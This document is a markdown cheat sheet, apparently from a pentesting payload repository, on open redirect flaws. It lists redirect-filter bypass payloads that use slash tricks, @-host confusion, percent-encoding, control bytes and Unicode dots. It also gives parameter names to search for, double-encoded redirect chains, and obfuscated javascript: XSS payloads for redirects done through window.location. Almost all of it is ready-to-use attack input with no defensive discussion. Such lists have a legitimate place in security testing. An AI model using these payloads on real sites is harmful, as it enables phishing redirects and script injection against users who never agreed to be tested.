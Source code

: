 # Open redirect

## Summary
* [Common payloads to bypass filter](#common-payload-to-bypass-filter)
* [Find common vulnerable endpoints](#google-dork-to-find-vulnerable-endpoints)
* [Using encoding](#using-encoding)
	* [Double enconding](#sometimes-double-encode-with-help-base-on-how-many-redirects-are-made--parameters)
	* [Making use of XSS & encoding for redirect](#xss-migh-be-possible-if-it-is-redirected-via-something-like-windowlocation)

Open redirection is simply a url such as http://example.com?goto=https://google.com will then visited the URL provided in the parameter

## Common payload to bypass filter
```
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use ## \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (also try %09, %00, %0a, % 07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
```

## Google dork to find vulnerable endpoints
```
return
return_url
rUrl
cancelUrl
url
redirect
follow
goto
returnTo
returnUrl
r_url
history
goback
redirectTo
redirectUrl
redirUrl
```

## Using encoding
### Sometimes double encode with help base on how many redirects are made & parameters
```
https://example.com/login?return=https://example.com/?redirect=1%26returnurl=https%3A%2F%2Fwww.google.com%2F
https://example.com?login?return=https://%3A%2F%2Fexample.com%2F%3Fredirect=1%2526returnurl%3Dhttps%253A%252f%252Fwww.google.com
```
### XSS migh be possible if it is redirected via something like "window.location"
```
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`
```
